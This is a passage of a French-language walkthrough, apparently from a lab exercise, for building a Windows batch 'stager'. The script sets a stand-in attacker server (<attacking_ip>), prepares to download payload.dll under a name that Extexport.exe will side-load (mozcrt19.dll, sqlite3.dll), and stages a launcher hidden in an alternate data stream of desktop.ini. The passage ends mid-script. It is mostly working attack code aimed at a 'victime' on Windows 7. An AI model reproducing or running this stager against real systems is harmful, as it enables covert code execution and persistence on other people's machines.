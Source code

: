 ![ea56623d6963f24f2d15aea65a10ef6f.png](/img/5008cfd7fb9648e386da929f407b3d59.png)

**2. Création du stager**

Path de ExtExport: `C:\Program Files\Internet Explorer\Extexport.exe` pour Win 7, sinon: `C:\Program Files\Internet Explorer (x86)\Extexport.exe`

La victime étant sous Win 7, enregistrer le code suivant sous `stager.cmd` sur la VM Kali:

```
@echo off

setlocal enabledelayedexpansion

set SERVER=http://<attacking_ip>/

set PATH_PUBLIC_DIR=C:\Users\Public\Libraries\raw\
rem Create the target directoty if it does not exist.
if not exist "%PATH_PUBLIC_DIR%" mkdir %PATH_PUBLIC_DIR%

set PAYLOAD_DLL=payload.dll
set TARGET_ADS=desktop.ini
set LAUNCHER_LNK=launcher.lnk
set LAUNCHER_CREATE_VBS=launcher_create.vbs

set URL_PAYLOAD_DLL=%SERVER%%PAYLOAD_DLL%

rem ExtExport.exe looks for any DLL with the following names.
set EXTEXPORT_DLLS[1]=mozcrt19.dll
set EXTEXPORT_DLLS[2]=mozsqlite3.dll
set EXTEXPORT_DLLS[3]=sqlite3.dll

rem Select one DLL filename at random.
set /a _rand=%RANDOM% %% 3 + 1
set EXTEXPORT_DLL=!EXTEXPORT_DLLS[%_rand%]!

set PATH_EXTEXPORT_DLL=%PATH_PUBLIC_DIR%%EXTEXPORT_DLL%
set PATH_LAUNCHER_LNK=%PATH_PUBLIC_DIR%%LAUNCHER_LNK%
set PATH_LAUNCHER_CREATE_VBS=%PATH_PUBLIC_DIR%%LAUNCHER_CREATE_VBS%

set PATH_LAUNCHER_CREATE_ADS=%PATH_PUBLIC_DIR%%TARGET_ADS%:%LAUNCHER_CREATE_VBS%

```